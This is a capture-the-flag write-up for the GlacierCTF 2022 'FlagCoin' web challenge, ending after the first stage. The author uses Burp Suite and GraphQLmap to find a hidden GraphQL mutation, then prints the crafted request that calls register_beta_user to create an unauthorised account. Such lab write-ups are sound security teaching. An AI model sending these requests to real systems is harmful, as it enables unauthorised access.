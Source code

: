 ## Web

### FlagCoin

_Our new 110% legit cryptocurrency is so cool, it does not even use blockchains. We have a WIP web interface for trading though. Hope nobody can get a beta testing account._

#### Solution

The fist thing we see is a simple login screen:
![](/posts/images/glacierctf2022_flagcoin_login.png)

We can notice that the registration is disabled, so we can only log in existing profiles.
Looking at the source code, we notice nothing special.

Using **Burp Suite**, we can take a look at the performed request:

```json
{
  "query": "\n      mutation($username: String!, $password: String!) { \n        login(username: $username, password: $password) { \n          username \n        } \n      }\n      ",
  "variables": { "username": "blabla", "password": "ciaociao" }
}
```

We notice that a **mutation** query is performed.
That's the _key_ to the solution.

The idea was to gain the access to the _beta_ account.

That's how I did this:

1. Using a tool ([GraphQL Map](https://github.com/swisskyrepo/GraphQLmap)), I discovered that there were 3 possible mutations: **login.query**, **redeem.query** (which comes in hand for stage 2) and **register_beta_user.query** (the one I was looking for)

2. Opening the **register_beta_user.query** file, here is what I obtained:

```json
{
  "query": "mutation {\n\tregister_beta_user(username:String, password:String) {\n\t\tusername\n\t\tpassword\n\t\tcoins\n\t}\n}"
}
```

3. Now we can inject the request (again using _Burp_) to perform the _register_beta_user_ query:

```json
{
  "query": "\n      mutation($username: String!, $password: String!) { \n        register_beta_user(username: $username, password: $password) { \n          username \n        } \n      }\n      ",
  "variables": { "username": "beta", "password": "tester" }
}
```

4. Than we can login with the new account:
   ![](/posts/images/glacierctf2022_flagcoin_solved_login.png)
